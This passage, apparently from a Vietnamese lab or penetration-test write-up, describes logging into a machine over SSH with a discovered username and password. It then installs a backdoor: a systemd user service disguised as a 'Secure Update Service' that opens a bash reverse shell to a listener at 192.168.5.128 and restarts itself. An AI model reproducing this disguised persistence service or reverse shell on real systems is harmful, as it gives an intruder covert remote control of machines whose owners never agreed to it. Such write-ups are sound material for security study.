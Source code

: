 ![alt text](image-29.png)

Phát hiện tồn tại người dùng khanh trong hệ thống 
Ta thử các username : khanh và password : 1234!#$7aBcD để đăng nhập qua dịch vụ SSH thật sự kết nối từ xa thành công vào hệ thống .
![alt text](image-30.png)

BackDoor

```bash
mkdir -p ~/.config/systemd/user
nano ~/.config/systemd/user/secure.service
```
Nội dung file
```bash
[Unit]
Description=Secure Update Service

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.5.128/443 0>&1'
Restart=always

[Install]
WantedBy=default.target
```